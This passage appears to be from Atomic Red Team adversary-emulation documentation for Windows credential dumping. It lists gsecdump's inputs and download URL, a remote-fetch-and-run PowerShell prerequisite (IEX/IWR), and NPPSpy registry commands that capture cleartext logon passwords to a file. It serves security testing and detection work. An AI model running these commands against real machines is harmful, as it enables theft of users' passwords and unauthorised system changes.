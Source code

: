 | Name              | Description                           | Type   | Default Value                                                                                               |
| ----------------- | ------------------------------------- | ------ | ----------------------------------------------------------------------------------------------------------- |
| gsecdump_exe      | Path to the Gsecdump executable       | path   | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;gsecdump.exe                                            |
| gsecdump_bin_hash | File hash of the Gsecdump binary file | string | 94CAE63DCBABB71C5DD43F55FD09CAEFFDCD7628A02A112FB3CBA36698EF72BC                                            |
| gsecdump_url      | Path to download Gsecdump binary file | url    | https://web.archive.org/web/20150606043951if_/http://www.truesec.se/Upload/Sakerhet/Tools/gsecdump-v2b5.exe |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
"#{gsecdump_exe}" -a
```

#### Dependencies: Run with `powershell`!

##### Description: Gsecdump must exist on disk at specified location (#{gsecdump_exe})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{gsecdump_exe}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
$parentpath = Split-Path "#{gsecdump_exe}"; $binpath = "$parentpath\gsecdump-v2b5.exe"
IEX(IWR "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-WebRequestVerifyHash.ps1" -UseBasicParsing)
if(Invoke-WebRequestVerifyHash "#{gsecdump_url}" "$binpath" #{gsecdump_bin_hash}){
  Move-Item $binpath "#{gsecdump_exe}"
}
```

<br/>
<br/>

## Atomic Test #2 - Credential Dumping with NPPSpy

Changes ProviderOrder Registry Key Parameter and creates Key for NPPSpy.
After user's logging in cleartext password is saved in C:\NPPSpy.txt.
Clean up deletes the files and reverses Registry changes.
NPPSpy Source: https://github.com/gtworek/PSBits/tree/master/PasswordStealing/NPPSpy

**Supported Platforms:** Windows

**auto_generated_guid:** 9e2173c0-ba26-4cdf-b0ed-8c54b27e3ad6

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\NPPSPY.dll" -Destination "C:\Windows\System32"
$path = Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order" -Name PROVIDERORDER
$UpdatedValue = $Path.PROVIDERORDER + ",NPPSpy"
Set-ItemProperty -Path $Path.PSPath -Name "PROVIDERORDER" -Value $UpdatedValue
$rv = New-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy -ErrorAction Ignore
$rv = New-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider -ErrorAction Ignore
$rv = New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider -Name "Class" -Value 2 -ErrorAction Ignore
$rv = New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider -Name "Name" -Value NPPSpy -ErrorAction Ignore
```